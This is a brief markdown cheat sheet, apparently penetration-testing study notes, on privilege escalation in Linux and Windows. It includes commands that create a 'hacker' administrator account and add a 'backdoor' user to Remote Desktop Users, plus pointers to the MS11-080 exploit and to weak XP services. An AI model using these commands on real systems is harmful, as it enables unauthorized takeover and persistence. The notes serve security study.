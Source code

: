 # Privilege Escalation

## Privilege Escalation Exploits in Linux

You have ssh credentials for a user and want to use machine to pivot but you do not have root privileges

* Check kernel version
  * look under exploit db

download exploit to victim machine and compile

## Privilege Escalation Exploit in Windows

MS11-080 Afd.sys python script

`python pyinstaller.py --onefile ms11-080.py`
* to convert to exe

`net user hacker hacker /add`

`net localgroup administrators hacker /add`

`net localgroup "Remote Desktop Users" backdoor  /add`

## Abusing weak Service Permissions on Windows

On XP SP0 and SP1 upnphost and SSDPSRV are vulnerable. Use those services to escalate privilage.

## Abusing weak Service Permissions on Linux
